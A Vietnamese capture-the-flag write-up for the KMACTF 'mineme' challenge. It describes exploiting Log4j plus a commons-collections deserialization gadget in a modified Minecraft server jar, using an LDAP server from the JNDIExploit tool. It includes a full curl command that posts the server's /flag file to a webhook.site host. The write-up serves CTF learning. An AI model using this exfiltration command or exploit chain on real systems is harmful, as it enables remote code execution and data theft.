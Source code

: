 # Solution


Bài viết gốc có thể xem tại [đây](https://hackmd.io/@taidh/Bk94PZjt9).

Mình mới học về log4j cách đâu 2 ngày nhưng may thay được dịp gặp được cái chall về nó nên sẽ viết về solution mà chủ yếu từ wu của một đàn anh.

Server cho một file `server_1.15.jar` và để ta có thể dùng `tlauncher` để debug local.
Nhờ vào description của tác giả ta có thể lên mạng tìm một version khác của nó để check sự khác biệt (mình có tải sẵn ở [đây](https://github.com/to016/CTFs/blob/main/2022/KMACTF/mineme/mineme/app/server.jar) )

Dùng intellij idea để kiểm tra sự khác nhau của 2 `.jar` file

![diff](https://user-images.githubusercontent.com/77546253/174476296-12876d99-e575-46ac-b33a-ce20413a2d12.png)


Ta có thể thấy bên file của đề có sử dụng `collections` và cũng có rất nhiều gadget chain phổ biến với nó. Việc còn lại là set up một ldap server để có thể transfer serialized data. Cách này vừa có thể giúp ta khai khác log4j + deserialization vừa bypass được các version mới của jdk. Có thể dùng tool [này](https://github.com/WhiteHSBG/JNDIExploit).

![log4j_exploitable](https://user-images.githubusercontent.com/77546253/174476309-7bd4b92a-78ad-47ed-a001-fc3f6b97b512.png)

Đầu tiên ta thử ở local với command `calc.exe`

![local_test](https://user-images.githubusercontent.com/77546253/174476297-de034404-4216-41d1-bba7-9086bbe830f9.png)



OK giờ thử trên server của giải: `149.28.135.96:13337` với payload: `curl -X POST -d @/flag https://webhook.site/ac119b03-212f-443a-aca6-5e230bfc7544`

Encode payload:

![encode_payload](https://user-images.githubusercontent.com/77546253/174476303-a41d0b56-c1f5-489d-8518-d2be2dbe0da0.png)


Kết quả:

![flag](https://user-images.githubusercontent.com/77546253/174476325-e02aa983-a592-43be-babe-f571a0cba74f.png)





